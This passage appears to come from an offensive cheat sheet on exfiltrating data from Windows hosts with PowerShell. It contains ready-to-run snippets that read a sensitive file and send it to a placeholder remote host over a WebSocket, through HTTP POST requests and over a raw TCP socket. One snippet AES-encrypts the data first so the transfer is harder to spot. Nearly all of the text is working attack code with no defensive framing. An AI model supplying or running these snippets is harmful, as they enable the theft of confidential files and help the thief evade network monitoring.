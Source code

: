 ```
```

#### WebSockets

Exfiltrate Data Over WebSockets:

```
$WebSocket = New-Object -TypeName System.Net.WebSockets.ClientWebSocket
$Uri = [Uri] "ws://<remote_ip>/upload"
$WebSocket.ConnectAsync($Uri, [System.Threading.CancellationToken]::None).Wait()
$Data = [System.IO.File]::ReadAllBytes("C:\Temp\sensitivefile_copy.txt")
$Buffer = [System.ArraySegment[byte]]::new($Data)
$WebSocket.SendAsync($Buffer, [System.Net.WebSockets.WebSocketMessageType]::Binary, $true, [System.Threading.CancellationToken]::None).Wait()
$WebSocket.CloseAsync([System.Net.WebSockets.WebSocketCloseStatus]::NormalClosure, "Finished", [System.Threading.CancellationToken]::None).Wait()
```

# Data Exfiltration via Custom and Covert Channels

#### Exfiltration via Custom Scripts

Custom Script for HTTP Exfiltration:

```
$Data = Get-Content -Path "C:\Temp\sensitivefile_copy.txt"
foreach ($Line in $Data) {
    Invoke-WebRequest -Uri "http://<remote_ip>/upload" -Method Post -Body $Line
}
```

#### Exfiltration via Custom Encrypted Channel

Encrypt Data Before Exfiltration Using AES:

```
$Key = (New-Object Security.Cryptography.Rfc2898DeriveBytes("password", [Byte[]]::new(16), 1000)).GetBytes(32)
$IV = [Byte[]]::new(16)
$AES = New-Object Security.Cryptography.AesManaged
$AES.Key, $AES.IV = $Key, $IV
$Data = [System.IO.File]::ReadAllBytes("C:\Temp\sensitivefile_copy.txt")
$EncryptedData = $AES.CreateEncryptor().TransformFinalBlock($Data, 0, $Data.Length)
[System.IO.File]::WriteAllBytes("C:\Temp\encrypted_data", $EncryptedData)
```

Exfiltrate Encrypted Data Using Netcat:

```
$TcpClient = New-Object Net.Sockets.TcpClient("<remote_ip>", <remote_port>)
$NetworkStream = $TcpClient.GetStream()
$EncryptedData = [System.IO.File]::ReadAllBytes("C:\Temp\encrypted_data")
$NetworkStream.Write($EncryptedData, 0, $EncryptedData.Length)
$NetworkStream.Close()
$TcpClient.Close()
```
